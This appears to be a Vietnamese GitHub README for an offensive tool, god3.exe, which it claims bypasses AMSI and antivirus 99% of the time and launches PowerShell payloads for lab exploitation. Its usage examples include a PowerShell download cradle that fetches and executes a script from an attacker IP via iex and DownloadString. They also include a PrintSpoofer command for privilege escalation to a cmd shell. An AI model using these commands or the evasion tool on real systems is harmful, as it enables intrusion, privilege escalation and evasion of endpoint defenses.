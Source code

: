 # god-bo-tung

Bố Tùng viết cái này để bypass amsi, trigger powershell và bypass AV lên đến 99% cho các con cháu múa trong labs

Nói chung ngu thì upload xong chạy thử, không được thì RDP xong chạy


god3.exe <dường dẫn file payload>
Ex:
    god3.exe C:\User\Public\Desktop\payload.txt
    payload.txt: powershell -Sta -Nop -Command "iex (New-Object Net.WebClient).DownloadString('http://192.168.49.121/gg.sp1')"
    hoặc
    payload.txt: C:\User\Public\Desktop\PrintSpoofer64.exe -c "cmd.exe"
Có 2 trường hợp của tool:
- TH1(Dành cho trường hợp ko truyền đc param vào cmd hoặc ko muốn truyền) Nếu không nhập đường dẫn file payload.txt. Tool sẽ tự tìm file tên "godpay" trong cùng thư mục của file god3.exe rồi đọc paylaod trong file đấy
- TH1(Chỉ muốn bật powershell)Nếu không tồn tại file "godpay" thì tool chỉ bật powershell 
